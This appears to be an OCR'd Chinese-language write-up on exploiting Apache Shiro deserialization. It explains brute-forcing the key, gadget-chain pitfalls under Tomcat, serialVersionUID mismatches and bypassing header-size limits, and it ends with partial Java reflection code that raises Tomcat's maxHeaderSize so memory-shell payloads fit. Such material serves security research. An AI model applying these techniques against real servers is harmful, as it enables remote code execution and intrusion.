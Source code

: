 ## 漏洞修复

在1.2.5及后续的版本，都是随机产生的密钥，但是指标不治本，如果能够爆破出来shiro的密钥的话，仍然是可以加以利用的

## 利用过程存在的问题

1. **Tomcat下Shiro无法利用`Commons-Collections 3.1-3.2.1`版本包含Transform数组的利用链。**

   因为Shiro重写了ObjectInputStream类的resolveClass函数。ObjectInputStream的`resolveClass`方法用的是Class.forName类获取当前描述器所指代的类的Class对象。

   Shiro的resovleClass会调用tomcat的`org.apache.catalina.loader.WebappClassLoaderBase#loadClass`方法加载类，该方法会先寻找缓存（由于该类对数组类序列化path路径的处理问题，会找不到），找不到再调用`Class.forName`并使用URLClassLoader作为加载器去加载`org.apache.commons.collections.Transformer`类，但用这个类加载器必然也会找不到该类。

   可参考：https://blog.zsxsoft.com/post/35

   解决方法: Commons-Collections 3.1通过TemplatesImpl加载字节码，可见[cc11链分析](https://myzxcg.com/2021/10/Ysoserial-利用链分析/#Commons-Collections11)。

2. **SUID 不匹配**

   如果序列化字节流中的serialVersionUID与目标服务器对应类中的serialVersionUID不同就会出现异常，导致反序列化失败。因为不同版本jar包可能存在不同的计算方式导致算出的SUID不同，只需要和目标一样的jar包版本去生成payload即可解决。这个主要是对CB链利用的时候1.8.3和1.9.2版本的SUID不同导致的问题

3. **中间件请求头长度限制**

   1. 修改Tomcat请求头最大值（适用于Tomcat 7、8、9）

      通过反射修改`org.apache.coyote.http11.AbstractHttp11Protocol`的maxHeaderSize的大小（默认长度8192），这个值会影响新的Request的inputBuffer时的对于header的限制。但由于request的inputbuffer会复用，所以在修改完maxHeaderSize之后，需要多个连接同时访问（burp开多线程跑），让tomcat新建request的inputbuffer，这时候的buffer的大小就会使用修改后的值。

## 命令执行回显

对于一般的tomcat和spring的回显都能直接打，但是呢，shiro比较特殊，他的payload是通过cookie这个请求头打过去的，请求头的长度默认限制为8192，对于tomcat和内存马这种比较长的payload不支持，所以我们需要通过反射修改maxHeaderSize

```
class Tomcat789 {
        public Object getField(Object object, String fieldName) {
            Field declaredField;
            Class clazz = object.getClass();
            while (clazz != Object.class) {
                try {

                    declaredField = clazz.getDeclaredField(fieldName);
                    declaredField.setAccessible(true);
                    return declaredField.get(object);
                } catch (NoSuchFieldException e) {
                } catch (IllegalAccessException e) {
                }
                clazz = clazz.getSuperclass();
            }
            return null;
        }

        public Object GetAcceptorThread() {
            //获取当前所有线程
            Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
            //从线程组中找到Acceptor所在的线程 在tomcat6中的格式为:Http-端口-Acceptor
            for (Thread thread : threads) {
                if (thread == null || thread.getName().contains("exec")) {
                    continue;
                }
```